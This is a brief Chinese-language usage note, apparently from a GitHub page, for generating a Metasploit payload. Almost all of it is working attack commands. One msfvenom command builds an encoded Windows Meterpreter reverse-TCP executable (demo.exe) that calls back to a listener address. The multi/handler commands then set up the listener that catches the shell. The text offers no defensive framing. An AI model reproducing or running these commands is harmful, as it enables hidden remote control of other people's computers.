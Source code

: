 # 生成器

## 用法

### 生成

```sh
./msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai lhost=192.168.88.96 lport=1111 -f exe -o demo.exe
```

注意，payload 和 encoder 的位数需要对应

### 等待连接

payload 需要和上面的一样，不然可能会出问题

```sh
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.88.96
set lport 1111
run
```
